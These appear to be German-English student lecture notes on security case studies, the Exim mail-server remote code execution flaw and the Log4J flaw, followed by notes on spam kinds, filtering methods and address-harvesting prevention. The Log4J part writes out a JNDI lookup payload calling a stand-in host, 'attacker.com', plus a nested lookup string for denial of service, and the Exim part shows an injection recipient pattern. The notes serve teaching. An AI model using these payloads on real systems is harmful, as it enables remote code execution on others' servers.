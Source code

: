 # `Fallbeispiele`
## `Exim - Remote Code Execution`
- Exim = mail server
- attacker must keep connection open for 7 days
- attacker send mail to `"${run{...}}@localhost"` (where "localhost" is one of Exim's local_domains) and execute arbitrary commands, as root
- expand_string() executes passed in string (user can pass a command which is run as root)
- bad condition for long connections `process_recipients != RECIP_ACCEPT`
---
## `Log4J - Java go brrr`
- Logging Lib for Java
- still fine code `log.info("UserAgent:{}", userAgent);`
- set userAgent to `${jndi:ldap://attacker.com/a}` -> liefert eine Java Klasse, die ausgeführt werden kann -> Remote Code Injection RCI / Remote Code Execution RCE
- `${${::-${::-$${::-j}}}}` = JNDI endless recursion -> DoS

# `Anti Spam`

## `Was ist Spam`
- `UCE` = Unsolicted Commercial E-Mail (unwanted Email with buy me)
- `UBE` = Unsolicted Bulk E-Mail (general spam mail) 
- -> ziel: verkauf von stuff, vermittlungsprovision, prep für scams
---
## `Filter Methoden`
- `Inhaltlich`
  - statisch
  - Bayes Filter
  - Wortmuster
  - AI
  - -> Generiert Score, score > threshhold -> spam
    - => false positives and false negatives 
  
- `BlackListing`
  - Ignore known Spam Adresses / Honeypot 
- `WhiteListing`
  - Accept known good Adresses
- `GreyListing`
  - Send error message for the first time
  - Non Spam will resend -> can whitelist 

- `Honeypot adressen`
  - zusätzliche mail adressen
  - sender an die mail temorär Blacklisted
---
## `Spam Prävention`
- How they get the Adresses
  - Data Breaches
  - Web Scraping
  - Adress Handel
  - Malware
  - "Freiwillige" Teilnahme
  - => diese Sachen vermeiden (Example: Email on Website as image instead of Text or " " between each char) 
